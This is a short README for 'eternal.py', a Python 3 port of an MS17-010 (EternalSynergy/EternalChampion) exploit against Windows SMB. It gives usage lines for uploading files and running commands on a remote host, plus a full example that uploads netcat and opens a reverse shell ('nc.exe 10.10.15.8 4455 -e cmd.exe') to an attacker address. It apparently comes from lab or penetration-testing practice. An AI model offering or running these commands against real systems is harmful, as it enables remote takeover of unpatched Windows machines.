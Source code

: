 # Eternal.py

This is a python3 implementation from the zzz_exploit. (https://github.com/worawit/MS17-010)

Original exploit was based on eternal sinergy and eternal champion. This is a partially translation to python3, with the "mysmb.py" included. Tested in windows 7, windows server 2003, and windows 10. Other Operative Systems may require to finish the translation to python3.

usage: 

   `python3 eternal.py -i <remote ip> -t <file to transfer> -o <output file name>`
   
   `python3 eternal.py -i <remote ip> -c <rce to execute>`

 NOTE: files transfered will appear inside remote host like c:\<output file name>

example: `python3 eternal.py -i 10.10.10.40 -t nc.exe -o nc.exe -c 'c:/nc.exe 10.10.15.8 4455 -e cmd.exe'`

<br>

If this exploit was usefull to you remember to subscribe to my youtube channel -> https://www.youtube.com/@artes_oscuras
